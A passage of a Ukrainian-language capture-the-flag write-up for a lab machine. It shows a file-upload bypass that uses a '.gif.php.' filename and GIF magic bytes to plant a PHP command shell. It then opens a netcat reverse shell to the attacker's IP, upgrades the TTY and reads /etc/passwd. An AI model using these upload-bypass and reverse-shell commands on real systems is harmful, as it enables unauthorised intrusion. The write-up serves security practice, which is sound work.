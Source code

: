 ![image](imgs/shell-upload.png)

З зображення вище:
1. змінити filename на `index.gif.php.`
2. надіслати [PHP cmd пейлоад](https://www.revshells.com/) з magic bytes на початку файлу для обходу перевірки GIF MIME типу
3. бекенд парсить його як gif і показує, що мій PHP cmd шел знаходиться за адресою `http://environment.htb/storage/files/index.gif.php`

![image](imgs/rce.png)

Тепер у нас є RCE (Remote Code Execution) на цілі. Щоб отримати на нашій машині зворотний шел, потрібно:

## Reverse Shell

1. У нашому терміналі:
   ```bash
   rlwrap nc -lvnp 1337
   ```

2. На нашому завантаженому PHP cmd шелі надіслати будь-який шел під лінукс, що вказуватиме на наш IP:
   ```bash
   busybox nc 10.10.14.53 1337 -e sh
   ```

![image](imgs/revshell.png)

3. Я люблю отримувати постійний інтерактивний шел, який не втратить з'єднання через деякий час, тому я використаю цей набір команд після отримання зворотнього з'єднання на нашій машинці:
   ```bash
   # Після отримання віддаленого з'єднання на netcat на нашій машині:
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   export TERM=xterm-256color
   export TERM=xterm
   
   # Тепер натиснути Ctrl+Z
   
   stty raw -echo ; fg ; reset 
   stty columns 200 rows 200
   ```

## Ескалація привілеїв користувача

Коли ми отримуємо віддалений доступ до сервера, ми входимо в систему як користувач **www-data**, який використовується в Linux веб-серверами типу Apache/Nginx для хостингу веб-додатків.

Щоб окреслити наші наступні кроки, ми подивимося на доступних користувачів на сервері:

```bash
www-data@environment:~/app/storage/app/public/files$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
hish:x:1000:1000:hish,,,:/home/hish:/bin/bash
```
